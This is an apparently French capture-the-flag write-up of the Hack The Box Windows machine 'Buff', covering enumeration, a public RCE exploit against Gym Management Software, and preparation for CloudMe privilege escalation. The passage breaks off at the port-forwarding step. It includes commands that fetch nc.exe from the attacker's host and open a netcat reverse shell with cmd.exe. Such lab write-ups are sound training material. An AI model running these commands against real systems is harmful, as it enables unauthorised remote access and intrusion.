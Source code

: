 ![Pic1](../img/buff1.PNG?raw=true) </br>

# Introduction

Buff est une machine Windows dont l'adresse IP est 10.10.10.198.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* Identification d'un service vulnérable.
* Recherche et exécution d'un exploit (RCE).
* Passer d'un webshell à un reverse shell netcat.
* Elevation de privilège via l'exploitation d'un service local (forward de port)
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.194
```
![Pic2](../img/buff2.PNG?raw=true) </br>
Le port 8080 étant un serveur web, on peut faire une énumération des fichiers/dossiers présents sur le site :
```bash
$ dirsearch.py -u http://10.10.10.198:8080/ -e "php,txt" -f -t 200 -X 403,404 -w wordlist
```
![Pic3](../img/buff3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En se baladant sur le site, sur la page contact on peut voir :</br>
![Pic4](../img/buff4.PNG?raw=true) </br>
Nous recherchons alors un exploit pour Gym Management Software avec searchsploit :
```bash
$ searchsploit Gym Management
```
![Pic5](../img/buff5.PNG?raw=true) </br>
Nous allons alors exécuter l'exploit RCE non authentifié et récupérer le user.txt (on sera connecté en tant que Shaun) :
```bash
$ locate 48506.py
$ cp /usr/share/exploitdb/exploits/php/webapps/48506.py ./
$ python 48506.py 'http://10.10.10.198:8080/'
> type C:\Users\shaun\Desktop\user.txt
```
![Pic6](../img/buff6.PNG?raw=true) </br>

# Obtenir un accès administrateur
Tout d'abord, nous allons passer d'un webshell à un reverse shell. Pour ce faire, nous allons upload netcat sur la boxe
et établir une connection :
```bash
##### Sur l'attaquant
$ cp /usr/share/windows-binaries/nc.exe ./
$ python3 -m http.server &
$ nc -lvnp 1234
##### Sur la boxe
$ powershell Invoke-WebRequest -Uri http://10.10.14.34:8000/nc.exe -OutFile C:\Users\shaun\Downloads\nc.exe
$ C:\Users\shaun\Downloads\nc.exe 10.10.14.34 1234 -e cmd.exe
```
![Pic7](../img/buff7.PNG?raw=true) </br>
Maintenant nous pouvons passer à l'énumération de la box, dans le répertoire Downloads de shaun, il y a un exécutable cloudme :</br>
![Pic8](../img/buff8.PNG?raw=true) </br>
Un petit tour sur searchsploit nous permet de voir qu'il y a plusieurs exploits de dispo :
```bash
$ searchsploit cloudme
```
![Pic9](../img/buff9.PNG?raw=true) </br>
Nous allons tester le premier, mais avant il faut comprendre un minimum comment tout va se correler :
* Cloudme est un service de stockage.
* En lançant cloudme.exe, il va écouter sur le port 8888 de la box.
* Pour exécuter l'exploit, il faut faire un tunnel (un forward de port) entre la box et kali.
* Le forward de port de la box vers Kali se fera avec plink.
* On exécutera l'exploit sur notre machine kali sur un port qui redirigera le traffic vers la box.
</br>
Maintenant on passe à l'action, 1ère étape, executer CloudMe.exe et vérifier que la box écoute bien sur le 8888 :
```bash
#### Sur la box
> C:\Users\shaun\Downloads\CloudMe_1112.exe
> netstat -ano
```
![Pic10](../img/buff10.PNG?raw=true) </br>
Maintenant, nous allons faire le forward de port (je pars du principe qu'on a déjà transféré PLINK.exe sur la box) :
```bash
#### Sur la box
